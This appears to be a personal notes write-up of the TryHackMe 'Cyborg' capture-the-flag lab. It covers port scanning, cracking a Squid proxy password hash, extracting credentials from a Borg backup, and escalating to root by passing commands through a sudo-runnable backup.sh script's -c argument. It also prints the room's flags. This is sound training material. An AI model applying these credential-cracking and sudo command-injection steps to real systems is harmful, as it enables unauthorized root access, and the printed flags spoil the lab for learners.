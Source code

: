 ```yaml
---
creation date: May 17th 2023
last modified date: May 17th 2023
aliases: []
tags: #🎌
---
```


Primary Categories: 
Secondary Categories:  
Links: 
Search Tag: #🎌  

# [[THM - Cyborg]]  


# Resolution summary
- Exploited Borg Repo that contained the user Alex's password written in a text file
- Used `sudo -l` found that our user can run `/etc/mp3backups/backup.sh`
- `backup.sh` was readable and showed it ran anything given as a `c` parameter in a CMD root user terminal

## Improved skills
- Need to not zone into one area and explore all avenues
- IF SOMTHING ISNT WORKING IT MIGHT BE BECAUSE ITS NOT GOING TO AND NOT BECAUSE YOU ARENT DOING IT RIGHT!!!!!!

## Used tools
- [[nmap]]
- [[Borg]]
- [[SSH]]

---

# Information Gathering
Scanned all TCP ports:
```bash
PORT   STATE SERVICE
22/tcp open  ssh
80/tcp open  http
```

Enumerated open TCP ports:
```bash
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.10 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 dbb270f307ac32003f81b8d03a89f365 (RSA)
|   256 68e6852f69655be7c6312c8e4167d7ba (ECDSA)
|_  256 562c7992ca23c3914935fadd697ccaab (ED25519)
80/tcp open  http    Apache httpd 2.4.18 ((Ubuntu))
|_http-title: Apache2 Ubuntu Default Page: It works
|_http-server-header: Apache/2.4.18 (Ubuntu)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

Enumerated top 200 UDP ports:
```bash

```

---

# Enumeration
## Port 80
- /admin
	- Leads to a site where two admins talk about using squid proxy and having configs still stored on the site somewhere
	- We also find a **.tar** file under music section
		- Downloading and opening shows that we have a [[Borg]] repo based on the README file
		- So this must be what the creds we found under
- /etc
	- Searching Squid proxy shows that it usually stores info in this subdomain so trying it leads us to a password file of: `music_archive:$apr1$BpZ.Q.1m$F0qqPwHSOG50URuOVQTTn.`
		- Cracking that password using [[Hash-Identifier]] shows its a MD5(APR)
		- Putting this into hashcat against the rockyou dictionary reveals the password:
			- `music_archive:squidward`


---

# Exploitation
## Password Saved In Borg Repo
- Using Borg we installed it to our system and used the following command to access it:
```bash
borg extract home/field/dev/final_archive/::music_archive
```
- The `home/field/dev/final_archive/` came from the **.tar** file it contained folders with this structure
- The `music_archive` came from our **/etc** subdomain and we are prompted for a password which we cracked earlier!!!

- Doing this will extract a new path for the user Alex: `/home/alex`
- Searching his folders under `Documents/note.txt` :
```text
Wow I'm awful at remembering Passwords so I've taken my Friends advice and noting them down!

alex:S3cretP@s3
```

## SSH Creds
**alex:S3cretP@s3**

## backup.sh Running as Admin??
```bash
#!/bin/bash

sudo find / -name "*.mp3" | sudo tee /etc/mp3backups/backed_up_files.txt


input="/etc/mp3backups/backed_up_files.txt"
#while IFS= read -r line
#do
  #a="/etc/mp3backups/backed_up_files.txt"
#  b=$(basename $input)
  #echo
#  echo "$line"
#done < "$input"

while getopts c: flag
do
        case "${flag}" in 
                c) command=${OPTARG};;
        esac
done



backup_files="/home/alex/Music/song1.mp3 /home/alex/Music/song2.mp3 /home/alex/Music/song3.mp3 /home/alex/Music/song4.mp3 /home/alex/Music/song5.mp3 /home/a$

# Where to backup to.
dest="/etc/mp3backups/"

# Create archive filename.
hostname=$(hostname -s)
archive_file="$hostname-scheduled.tgz"

# Print start status message.
echo "Backing up $backup_files to $dest/$archive_file"

echo

# Backup the files using tar.
tar czf $dest/$archive_file $backup_files

# Print end status message.
echo
echo "Backup finished"

cmd=$($command)
echo $cmd
```
- This is taking a parameter of `c` and passing that through to a **CMD** testing it with:
```bash
sudo /etc/mp3backups/backup.sh -c whoami
```
- Returned: `root`!!! We have access to root commands could open a shell with root user but just located a root.txt under `/root`
```bash
alex@ubuntu:/etc/mp3backups$ sudo ./backup.sh -c 'cat /root/root.txt'
```
- flag{Than5s_f0r_play1ng_H0p£_y0u_enJ053d}




---

# Lateral Movement to user
## Local Enumeration


## Lateral Movement vector


---

# Privilege Escalation
## Local Enumeration


## Privilege Escalation vector


---

# Trophy & Loot
user.txt = flag{1_hop3_y0u_ke3p_th3_arch1v3s_saf3}

root.txt = flag{Than5s_f0r_play1ng_H0p£_y0u_enJ053d}


___

## Resources:

| Hyperlink | Info |
| --------- | ---- |


Created Date: May 17th 2023 (09:33 pm)  
Last Modified Date: <%+tp.file.last_modified_date("MMMM Do YYYY (hh:ss a)")%>
